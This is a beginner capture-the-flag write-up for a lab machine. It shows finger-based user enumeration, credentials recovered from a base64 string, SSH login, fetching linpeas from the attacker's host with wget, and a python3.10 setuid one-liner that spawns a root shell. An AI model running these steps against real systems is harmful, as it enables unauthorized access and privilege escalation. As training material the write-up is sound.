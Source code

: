 # Task 15 - Chess Industry

Category: Boot2Root
Difficulty: Beginner

# nmap

Starting out, we start an nmap-scan as usual when it is a boot2root machine. Since we want to know what ports are open and find what our possible ways into the machine might be.

![task15_1](https://github.com/user-attachments/assets/f2341a36-3e22-42b4-a3a2-215735bc75c5)


We find that there are 3 ports of interest to start off with. ssh, http and finger. Finger is something I've never encountered before, and we have no credentials for ssh. So the obvious choice to start out with is checking out what we can find on the http port.

# http

As we enter the site this is what we're greeted with.

![task15_2](https://github.com/user-attachments/assets/d4208b05-9f6d-472f-ad59-fb37c5f0d915)


There isn't really much of note at first glance. But to the keen eye we can actually gather some vital information. There are three names here. They might actually be used as usernames as well.

# finger

Since I didn't really have any knowledge about this since before. I tried looking up what it was used for and found this in the man-page of finger.

```
NAME
       finger — user information lookup program

SYNOPSIS
       finger [-lmsp] [user ...] [user@host ...]

DESCRIPTION
       The finger displays information about the system users.
```
So it can be used to lookup users. What if we try this with the names from the site?

```
finger magnus@10.10.107.122 && finger fabiano@10.10.107.122 && finger hikaru@10.10.107.122
```

![task15_3](https://github.com/user-attachments/assets/6399b960-74f5-4c0e-a5f9-b3828e003c90)


Interesting, in fabiano's output we find a string that looks encoded. We can paste it in on https://dencode.com/en/ and let it try to decode it.

There we find that it is encoded with base64 and it is something that looks like credentials in the form of "username:password"

Where can we use them? We have a service that we know is running on the server that we haven't explored yet. Namely SSH.

# ssh

![task15_4](https://github.com/user-attachments/assets/54605fa3-640e-48cf-98cb-44de34f490e6)


Success! We're in. Now if we list the contents of fabianos home directory we find the user-flag.

So now we have the user-flag. Now we have to try to get root and the root flag. How would we do this? Let's make it easy shall we and let linpeas enumerate the machine for us to try to find ways we can escalate privileges.

As usual the first thing to try is to see if we have anything we can run with sudo.

```
sudo -l
```
No luck, but always worth a shot.


```
cd /tmp
```

We change directory to tmp so we can download linpeas into that directory and not have to mess with the home directory. And since we already have linpeas on our local system as part of Kali we go into the directory containing the script on our local machine. There we'll host a simple http server and download the script from our local machine to the target.

```
#locally
cd /usr/share/peass/linpeas && python3 -m http.server -port 1338

#target
wget http://10.9.245.105:1338/linpeas.sh
```

Now that we have the script downloaded onto our target. We will let it enumerate vulnerabilities for privilege escalation and see if we can find a way to get root.

```
bash linpeas.sh
```

![task15_5](https://github.com/user-attachments/assets/7258c02d-e850-4643-8c0d-780d9b29d124)


Very nice! We find out that python3.10 has setuid capabilities. We should be able to leverage this. We just need to make python start something for us with root uid.

```
python3.10 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

![task15_6](https://github.com/user-attachments/assets/abdf5bf3-93a3-4911-9a90-ddd6417ee9d5)


Awesome now we can just read /root/root.txt and get our root-flag and we're done.

# final thoughts

I found this machine a good start to the CTF. It was extremely beginner friendly and straight forward. A good start to build confidence in the participants. Always nice to be able to get a challenge done.
